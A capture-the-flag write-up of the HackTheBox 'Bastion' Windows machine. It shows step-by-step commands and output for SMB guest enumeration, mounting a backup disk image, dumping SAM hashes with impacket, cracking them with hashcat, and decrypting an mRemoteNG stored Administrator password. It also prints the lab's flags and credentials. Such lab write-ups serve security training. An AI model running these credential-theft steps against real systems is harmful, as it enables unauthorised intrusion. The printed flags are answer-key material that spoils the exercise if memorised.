






<p align="center">
  
</p>

---

<div align="center">

<table>
  <tr>
    <td><b>🎯 Target</b></td>
    <td>HackTheBox - Bastion Windows</td>
  </tr>
  <tr>
    <td><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td><b>📅 Date</b></td>
    <td>01.08.2025</td>
  </tr>
  <tr>
    <td><b>📊 Difficulty</b></td>
    <td>Easy</td>
  </tr>
  <tr>
    <td><b>📁 Category</b></td>
    <td>Privilege Escalation</td>
  </tr>
  <tr>
    <td><b>💻 Platform</b></td>
    <td>Windows</td>
  </tr>
</table>

</div>

---

## Table of Contents

- [Summary](#-summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F----vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---
## 🧾 Summary

<div align="center">

<table>
  <tr>
    <th>Stage</th>
    <th>Info</th>
  </tr>
  <tr>
    <td><b>User Flag</b></td>
    <td><code>flag{cc696b8e4a24e31217c8f73ae5be7c78}</code></td>
  </tr>
  <tr>
    <td><b>Root Flag</b></td>
    <td><code>flag{ab79670442ae17e00b09d1d179da8fd4}</code></td>
  </tr>
  <tr>
    <td><b>Techniques (MITRE ATT&CK):</b></td>
    <td align="left">
      <ul>
        <li><code>TA0043 -> T1595 - Active Scanning</code></li>
        <li><code>TA0007 -> T1135 - Network Share Discovery</code></li>
        <li><code>TA0006 -> T1003 - OS Credential Dumping</code></li>
        <li><code>TA0001 -> T1078 - Valid Accounts</code></li>
        <li><code>TA0006 -> T1552 - Unsecured Credentials</code></li>
      </ul>
    </td>
  </tr>
</table>

</div>

---

> Add the machine's IP address to `/etc/hosts`:

```bash

echo '10.10.10.134 bastion.htb' | sudo tee -a /etc/hosts && ping bastion.htb

10.10.10.134 bastion.htb

PING bastion.htb (10.10.10.134) 56(84) bytes of data.
64 bytes from bastion.htb (10.10.10.134): icmp_seq=1 ttl=127 time=42.6 ms
64 bytes from bastion.htb (10.10.10.134): icmp_seq=2 ttl=127 time=42.0 ms
64 bytes from bastion.htb (10.10.10.134): icmp_seq=3 ttl=127 time=41.9 ms
^C
--- bastion.htb ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 41.931/42.194/42.638/0.315 ms

```
---
## 🕵️  Reconnaissance

> Scanning the target for open ports and services via `nmap`:

```bash

sudo nmap -sVC -p- -vv -T5 bastion.htb -oN bastion_tcp_nmap

```

```bash

Discovered open port 139/tcp on 10.10.10.134
Discovered open port 445/tcp on 10.10.10.134
Discovered open port 135/tcp on 10.10.10.134
Discovered open port 22/tcp on 10.10.10.134
Discovered open port 5985/tcp on 10.10.10.134
Discovered open port 49669/tcp on 10.10.10.134
Discovered open port 47001/tcp on 10.10.10.134
Discovered open port 49665/tcp on 10.10.10.134
Discovered open port 49668/tcp on 10.10.10.134
Discovered open port 49664/tcp on 10.10.10.134
Discovered open port 49667/tcp on 10.10.10.134
Discovered open port 49666/tcp on 10.10.10.134
Discovered open port 49670/tcp on 10.10.10.134

```
> Scanning shows a large number of open ports. I will highlight the most important ones for us:

- `22 (ssh)` - used for remote SSH connection to the system;
- `135 (msrpc)` - Remote procedure call service;
- `139/445 (SMB)` - NetBIOS, NetLogon session service / file share access service;
- `5985 (winrm)` - For remote connection to the system;


> I'm trying to log in anonymously via `SMB`:

```bash

nxc smb bastion.htb -u '' -p ''

SMB         10.10.10.134    445    BASTION          [*] Windows 10 / Server 2016 Build 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [-] Bastion\: STATUS_ACCESS_DENIED

```
> `access denied`. Let's try under the user `guest`:

```bash

nxc smb bastion.htb -u 'guest' -p ''

SMB         10.10.10.134    445    BASTION          [*] Windows 10 / Server 2016 Build 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\guest:

```

> Authorization was successful. Let's display the available shares in the system:

```bash

nxc smb bastion.htb -u 'guest' -p '' --shares

SMB         10.10.10.134    445    BASTION          [*] Windows 10 / Server 2016 Build 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\guest:
SMB         10.10.10.134    445    BASTION          [*] Enumerated shares
SMB         10.10.10.134    445    BASTION          Share           Permissions     Remark
SMB         10.10.10.134    445    BASTION          -----           -----------     ------
SMB         10.10.10.134    445    BASTION          ADMIN$                          Remote Admin
SMB         10.10.10.134    445    BASTION          Backups         READ,WRITE
SMB         10.10.10.134    445    BASTION          C$                              Default share
SMB         10.10.10.134    445    BASTION          IPC$            READ            Remote IPC

```
> `Backups` share has `READ` and `WRITE` privileges. This is interesting. Let's connect to it:

```bash

smbclient //bastion.htb/Backups -U 'guest' -p ''
Password for [WORKGROUP\guest]:

Try "help" to get a list of possible commands.

smb: \> ls
  .                                   D        0  Wed Aug  6 14:33:39 2025
  ..                                  D        0  Wed Aug  6 14:33:39 2025
  lYbDVzjtNK                          D        0  Wed Aug  6 14:33:39 2025
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  TJRNdQzMSB.txt                      A        0  Wed Aug  6 14:33:39 2025
  WindowsImageBackup                 Dn        0  Fri Feb 22 07:44:02 2019

                5638911 blocks of size 4096. 1178407 blocks available
smb: \>

```

> I see a text file `note.txt` of 116 bytes in size, as well as an interesting directory named `WindowsImageBackup` (you can already tell what's in it by the name).
> Ok. Download the contents of the share to yourself

```bash

smb: \> recurse on
smb: \> prompt off
smb: \> mget *

```

---

**Note:** Downloading the contents of this share may take some time since the size of the `WindowsImageBackup` directory is about 5GB.

---

> There is nothing useful in the text file `note.txt`. In the `WindowsImageBackup` directory at `/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351` there are two interesting
> `.vhd` files:

<p align="center">
 
</p>

---

**Note:** `.vhd` - Virtual Hard Disk - is a virtual hard disk image file that contains a file system, folders, files, boot sectors - everything like on a regular disk. Such disks are
created to store backups of the entire system or specific disks, files, documents, etc. They can be mounted to themselves for further analysis.

---

> Judging by the size of the two images, it's not hard to see that a `37MB` disk is unlikely to be of any value, unlike a `5GB` disk.
> We can display the contents of the `BackupSpecs.xml` file to see which disks were used for the backup:

```bash

cat BackupSpecs.xml | tr -d '\000' | xmllint --format -

```
```bash

<?xml version="1.0"?>
<BackupSpecs>
  <FileSpecs>
    <Volume Name="\\?\Volume{9b9cfbc3-369e-11e9-a17c-806e6f6e6963}\" AccessPath="" OriginalAccessPath="" Label="" OriginalLabel="">
      <FileSpec FilePath="\\?\Volume{9b9cfbc3-369e-11e9-a17c-806e6f6e6963}\" FileName="*" IsRecursive="true" IsInclude="true"/>
    </Volume>
    <Volume Name="\\?\Volume{9b9cfbc4-369e-11e9-a17c-806e6f6e6963}\" AccessPath="C:" OriginalAccessPath="C:" Label="" OriginalLabel="">
      <FileSpec FilePath="C:\" FileName="*" IsRecursive="true" IsInclude="true"/>
    </Volume>
  </FileSpecs>
  <SystemState IsPresent="false"/>
  <AllCritical IsPresent="false"/>
</BackupSpecs>

```

> The first disk shows `AccessPath=""`. This means that the first partition is a volume without a designation and cannot be accessed directly. Most likely, it is just a system partition for restoring Windows.
> The second disk `AccessPath="C:\"` - contains a full path to the `C` disk that was used to create the backup.

> Mount the second disk to your system:

```bash

guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /tmp/vhd

```
```bash

sonyahack1 kali /tmp/vhd
❯ ls -alh

total 2.0G
drwxrwxrwx  1 root root  12K Feb 22  2019  .
drwxrwxrwt 65 root root 1.6K Aug  7 22:34  ..
drwxrwxrwx  1 root root    0 Feb 22  2019 '$Recycle.Bin'
-rwxrwxrwx  1 root root   24 Jun 10  2009  autoexec.bat
-rwxrwxrwx  1 root root   10 Jun 10  2009  config.sys
lrwxrwxrwx  2 root root   14 Jul 14  2009 'Documents and Settings' -> /sysroot/Users
-rwxrwxrwx  1 root root 2.0G Feb 22  2019  pagefile.sys
drwxrwxrwx  1 root root    0 Jul 13  2009  PerfLogs
drwxrwxrwx  1 root root 4.0K Jul 14  2009  ProgramData
drwxrwxrwx  1 root root 4.0K Apr 11  2011 'Program Files'
drwxrwxrwx  1 root root    0 Feb 22  2019  Recovery
drwxrwxrwx  1 root root 4.0K Feb 22  2019 'System Volume Information'
drwxrwxrwx  1 root root 4.0K Feb 22  2019  Users
drwxrwxrwx  1 root root  16K Feb 22  2019  Windows

```
> search for system files `SAM` - it stores the database of local accounts; and `SYSTEM` - contains system parameters and encryption keys needed to decrypt data
> from `SAM`:

```bash

find /tmp/vhd -type f -name "*SAM*" 2>/dev/null

```
```bash

find /tmp/vhd -type f -name "*SYSTEM*" 2>/dev/null

```
<p align="center">
 
</p>

> We use the `secretsdump.py` script from the `impacket` python library set to extract `NTLM` hashes from `SAM` and `SYSTEM`:

```bash

impacket-secretsdump -sam /tmp/vhd/Windows/System32/config/SAM -system /tmp/vhd/Windows/System32/config/SYSTEM LOCAL

```
```bash

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

```

> It is not possible to connect via `winrm` using the hash. The user `L4mpje` is not a member of the remote connection group `Remote Management Users`.
> There is an open `22 (ssh)` port, but a password is needed to connect.

> We use `hashcat` to crack the hash and extract the password of the user `L4mpje`:

```bash

hashcat -m 1000 L4-hash.txt /usr/share/wordlists/rockyou.txt --force

```
```bash

26112010952d963c8dc4217daec986d9:bureaulampje

```

---
## 🔓 Initial Access

> We have a valid account - `L4mpje:bureaulampje`

> Connecting via `ssh`:

```bash

ssh L4mpje@bastion.htb
L4mpje@bastion.htb's password:

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>whoami
bastion\l4mpje

l4mpje@BASTION C:\Users\L4mpje>

```
> I get the **first flag** in the directory - `C:\Users\L4mpje\Desktop`:

```bash

PS C:\Users\L4mpje\Desktop> type user.txt
cc696b8e4a24e31217c8f73ae5be7c78
PS C:\Users\L4mpje\Desktop>

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>cc696b8e4a24e31217c8f73ae5be7c78</code>
    </td>
  </tr>
</table>

</div>

---

## 🔑⬆️    Vertical Privilege Escalation

> The server has the program `mRemoteNG` installed in the directory `C:\Program Files (x86)`:

```bash

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        16-7-2016     15:23                Common Files
d-----        23-2-2019     09:38                Internet Explorer
d-----        16-7-2016     15:23                Microsoft.NET
da----        22-2-2019     14:01                mRemoteNG
d-----        23-2-2019     10:22                Windows Defender
d-----        23-2-2019     09:38                Windows Mail
d-----        23-2-2019     10:22                Windows Media Player
d-----        16-7-2016     15:23                Windows Multimedia Platform
d-----        16-7-2016     15:23                Windows NT
d-----        23-2-2019     10:22                Windows Photo Viewer
d-----        16-7-2016     15:23                Windows Portable Devices
d-----        16-7-2016     15:23                WindowsPowerShell

```

---

**Note:** `mRemoteNG` - This is a free remote connection manager that supports many different remote access protocols.

---

> The configuration file `confCons.xml` with all the connection and user authentication settings is located in the directory by default - `C:\Users\L4mpje\AppData\Roaming\mRemoteNG`:

<p align="center">
 
</p>

<p align="center">
 
</p>

> The file contains the administrator password for connection, but it is encrypted. To decrypt passwords for the program `mRemoteNg`, I use the script `mremoteng_decrypt.py`
> from the repository `https://github.com/kmahyyg/mremoteng-decrypt`:

[mRemoteNG-decrypt](https://github.com/kmahyyg/mremoteng-decrypt)

```bash

sudo python3 mremoteng_decrypt.py -s 'aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=='

```
```bash

Password: thXLHM96BeKL0ER2

```
> We have a valid **Administrator** account - `Administrator:thXLHM96BeKL0ER2`

> Connect via `SSH` and take the **last flag** in the directory - `C:\Users\Administrator\Desktop`:

```bash

ssh Administrator@bastion.htb
Administrator@bastion.htb's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

administrator@BASTION C:\Users\Administrator>whoami
bastion\administrator

administrator@BASTION C:\Users\Administrator>

```
```bash

PS C:\Users\Administrator\Desktop> type root.txt
ab79670442ae17e00b09d1d179da8fd4
PS C:\Users\Administrator\Desktop>

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>ab79670442ae17e00b09d1d179da8fd4</code>
    </td>
  </tr>
</table>

</div>

<p align="center">
 
</p>


---
## 🧠 Conclusion

> During the walkthrough of this machine using `SMB`, a `Backups` share was found, which contained a hard disk image (`.vhd`) with a backup copy of the `C:\` disk.
> After mounting this disk and extracting the `SAM` and `SYSTEM` system files, the credentials of the `L4mpje` user were obtained, which provided initial access to the
> system via `ssh`. During further reconnaissance, the `mRemoteNG` program for managing remote connections was found in the system. User authentication settings were
> located in the default directory `C:\Users\L4mpje\AppData\Roaming\mRemoteNG` in the `confCons.xml` configuration file, from which the password for the Administrator
> user was obtained, which led to a complete compromise of the system.

<p align="center">
 
</p>


